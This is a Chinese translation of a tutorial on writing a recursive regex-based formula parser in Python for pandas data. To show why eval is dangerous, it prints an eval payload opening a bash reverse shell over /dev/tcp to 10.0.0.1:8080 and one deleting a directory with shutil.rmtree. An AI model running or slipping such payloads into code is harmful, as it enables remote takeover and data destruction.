# 如何用 Python 编写公式字符串解析器

> 原文：<https://levelup.gitconnected.com/how-to-write-a-formula-string-parser-in-python-5362210afeab>


Antoine Dautry 在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

## 解释字符串格式的公式以执行它

那么，我这里说的“公式串”是什么意思呢？我们可以将“a + (b + c)”作为字符串读取，然后用 Python 解释它，而不是将`a + (b + c)`作为代码，包括:

*   了解基本运算符`+`、`-`、`*`、`/`
*   理解计算优先级，比如`*`和`/`应该在任何`+`和`-`之前计算。
*   理解与计算优先级相关的括号。
*   了解一些更高层次的算子比如 sigma。这里我们用`sum()`、`avg()`、`min()`和`max()`。
*   最后，能够根据变量名找到正确的值，在上面的例子中是`a`、`b`和`c`。当然，在实践中，“变量”会更加复杂。

我的 GitHub 中的一个要点页面贴在本文末尾。所以，请允许我使用 Jupyter Notebook 中的截图来一步步实现，这样更容易阅读。

# 为什么我们需要写一个解析器？

在实现之前，我想讨论一下为什么我们需要编写一个解析器，尽管可能有其他方法可以做到这一点。

有些人可能认为`eval`函数可以做到这一点。



然而，事实证明`eval`函数非常危险，只能用于实验目的，不应该出现在生产环境中。

## 原因 1:黑客可以运行任何表达式

一旦黑客意识到 Python 程序正在读取一些字符串并在`eval`函数中运行它们，那么这个安全漏洞几乎可以用来运行任何东西。

例如，运行一些恶意命令，如

```
eval("__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')#")
```

运行一些危险的命令来删除你的重要文件

```
eval("__import__('shutil').rmtree('/an/important/path/')")
```

## 原因 2:它违反了软件开发的基本原则

也就是说，您的源代码应该包含所有的特性和功能。它依赖于一些额外的静态源作为你程序的一部分，这很容易变得失去控制，并且功能将不再是可预期的。

## 原因 3:它导致可维护性差

无论我们写的代码有多糟糕，我们都可以重构它或者修复其中的错误。随着更多的“迭代”，我们的程序越来越接近“完美”。然而，使用`eval`函数会让你的程序总是有一些超出正常测试生命周期的东西，这使得它永远不会走向“完美”。

## 原因 4:性能降低

我们的程序在运行之前会被编译。然而，使用`eval`函数会导致每次调用该函数时进行“动态”编译。所以，性能会更慢，而且从来没有执行时间的预期。

# 问题说明

现在，让我们具体说明要解决的问题。

假设我们有这样一个熊猫数据帧，它被认为是我们的原始数据。



现在，我们有了一个公式，比如`sum(tag1)+sum(tag2)`，或者更复杂的公式，比如`(sum(tag1)+avg(tag2))/avg(tag3)*100+max(tag4)-min(tag5)`。

我们的解析器应该识别公式中的所有数学表达式，然后从原始数据帧中获取值来执行计算。

注意，这个问题有一个隐藏的步骤。也就是说，每个标签有多个值，所以我们需要获取一个列表中的所有值，然后聚合这些值。

还预期需要涉及两种主要技术来解决该问题:

*   正则表达式(regex)
*   递归函数

# 履行

解决方案将会很复杂。所以，让我们一步一步来解决问题。

## 步骤 1:仅聚合

现在，让我们暂时忽略复杂的公式。假设公式只有一个标签值的聚合— `sum(tag1)`。



这个递归函数使用 regex 的步骤如下:

1.  字符串`sum(tag1)`不会匹配第一个`if`条件，但会匹配第二个条件。在`r’\Asum\([^\(\)]+\)\Z’`中，`\A`将匹配字符串的开头，`\Z`将匹配字符串的结尾，`sum`将匹配字符串“sum”，而`[^\(\)]+`将匹配一个或多个既不是`(`也不是`)`的字符，因为我们不希望它匹配类似于`sum(tag1+(tag2-tag3))`的字符。
2.  然后，`f[4:-1]`会将“sum(" from the beging and ")”从末尾剥离。因此，字符串`tag1`将被传递给`interpret`函数本身用于下一次递归。
3.  在下一次递归中，参数`f`将是从上一次递归中传递过来的字符串`tag1`，这将匹配正则表达式`r’\Atag[\d]+\Z’`。
4.  一旦匹配，函数将返回`df[df.tag == 'tag1']['value'].values`到之前的递归，这是原始数据帧中 tag1 的所有值的数组。
5.  前一次递归将对下一次递归返回的数组执行`np.sum(...)`。因此，标量值将被返回。

类似地，我们可以为其他 3 种类型的聚合添加更多的`elif`条件。



## 步骤 2:聚合之间的运算符

现在，让我们在聚合之间添加运算符的支持，比如`sum(tag1+tag2)`。

想法如下:

1.  从公式中找出任何运算符`+, -, *, /`，然后将公式拆分成多个部分。
2.  将组件发送到值的下一轮递归
3.  在组件值之间使用相应的计算方法——加、减、乘或除



这里，我们使用正则表达式`r’[\+\-]’`来拆分公式，得到两个分量:左分量和右分量。然后，这两个组件都被传递到下一级递归中以获取它们的值。之后，将根据两个分量之间的运算符计算这两个分量。

**非常重要的提示:**

*   左边的组件必须是原子组件，其中没有更多的操作符。
*   右边的组件可能有更多的操作符，但它将在下一级递归中被拆分。
*   如果有，务必首先通过`+, —`进行分割，这一点非常重要。然后，仅当没有剩余的`+, —`时，由`*, —`分割。这将确保`*, —`的计算优先级高于`+, —`。
*   在计算除法`/`时，务必事先检查分母是否一致。

## 步骤 3:聚合中的运算符

我们的解析器应该足够智能来处理这样一个公式`sum(tag1+tag2)+avg(tag3)`，相当于`sum(tag1)+sum(tag2)+avg(tag3)`。

在这种情况下，我们之前的`interpret`函数会将公式`sum(tag1+tag2)+avg(tag3)`分成两部分:

*   `sum(tag1`
*   `tag2)+avg(tag3)`

如果发生这种情况，整个功能将会失败。因此，我们需要找到一种方法来识别括号(可能是嵌套的)，然后匹配不在括号内的运算符。

让我们修改我们的函数如下(在红色方块中):



`remove_matched_parantheses`功能如下:



实施说明:

1.  删除任何匹配的括号对(如果有)
2.  使用所有`+, —`拆分公式。如果没有找到，使用`*, /`分割
3.  从最左边的组件开始，如果它包含括起来的括号(`(`的数目等于`)`)，这个组件就是左边的组件，右边的都是右边的组件。
4.  如果没有括起来，就移动到下一个组件，直到找到括住括号的组件(可能是嵌套的)。然后，左边的所有组件应该连接为左组件，右边的所有组件都是右组件。

**为什么我们需要删除所有匹配的括号对？**

假设我们的公式是`sum(tag1+tag2)*avg(tag3)`。如果我们不删除匹配的括号对，它将被分成`sum(tag1`和`tag2)*avg(tag3)`，因此我们的函数将失败。

因此，如上所述，我们需要确保识别不在括号中的操作符。

我们还不能测试它。需要解决下一步才能验证。

## 第四步:添加关联规则的支持

处理`sum(tag1+tag2)`时，如果`tag1`的值的个数等于`tag2`，当前版本的`interpret`函数将不会出现问题。然而，如果我们想让我们的解释器函数通用化，我们不能假设。所以我们需要把`sum(tag1+tag2)`重新写成`sum(tag1)+sum(tag2)`。此外，我们需要考虑聚合函数中是否有嵌套括号。

**注意:我们在一个** `**sum()**` **里面只能有** `**+, —**` **。**

直觉:

1.  获取聚合函数名，如`sum`
2.  剥离外部聚合函数
3.  查找当前级别的所有运算符，即不在嵌套括号中的运算符。然后，使用这些运算符将字符串拆分成多个部分
4.  对于每个组件，添加函数名(如`sum(`)作为前缀，并在`)`末尾加上括号
5.  将整个字符串传递给下一个递归

代码如下:



现在，我们可以验证我们的工作。



## 步骤 5:使用括号来更改优先级

我们的解释器也应该认识到改变计算优先级的括号，比如这个公式

> `sum(tag1+(tag2-tag3))*(max(tag4)+avg(tag5))`

这一步的直觉是识别一对括起来的括号，然后去掉外面的括号，将内容传递给下一个递归。注意，我们应该只匹配以`(`开始并以`)`结束的模式，所以我们不应该匹配像`sum(...)`这样的括号对。

因此，我们简单地添加另一个`elif`条件来匹配这个模式，并将内容传递给下一个递归。



另一件重要的事情是避免这里的无限递归。想想上面例子中的第一个 sum 函数`sum(tag1+(tag2-tag3))`，我们之前的实现将把它重写为`sum(tag1)+sum((tag2-tag3))`。然后，第二个组件`sum((tag2-tag3))`将导致一个无限递归，因为它将不断向内容添加`sum`。

下面的代码是为了避免这个问题。我们之所以应该使用`while`循环而不是单个`if`条件，是为了使函数对`sum((((tag2-tag3))))`等情况更具鲁棒性。



现在，我们来验证一下。



## 步骤 6:添加对常量的支持

有时，在公式中有一些常数是必要的。例如，在前一个示例的基础上，我们可以得到如下公式:

> `(sum(tag1+(tag2-tag3))+10)*(max(tag4)+avg(tag5))*0.2`

这一步的直觉相对容易。我们只需要测试组件是否是一个数字。如果有，返回这个号码。

还有一个条件可以实现:



我们来验证一下:

[](https://medium.com/@qiuyujx/membership) [## 通过我的推荐链接加入灵媒-陶

### 作为一个媒体会员，你的会员费的一部分会给你阅读的作家，你可以完全接触到每一个故事…

medium.com](https://medium.com/@qiuyujx/membership) 

如果你觉得我的文章有帮助，请考虑加入 Medium 会员来支持我和成千上万的其他作者！(点击上面的链接)

# 结论

现在，我们已经完成了 Python 公式解析器的实现。所有代码都可以在这里找到:

[https://gist . github . com/qiuyujx/FD 285 e2a 2638978 AE 08 f 0 b5 C3 EAE 54 ab](https://gist.github.com/qiuyujx/fd285e2a2638978ae08f0b5c3eae54ab)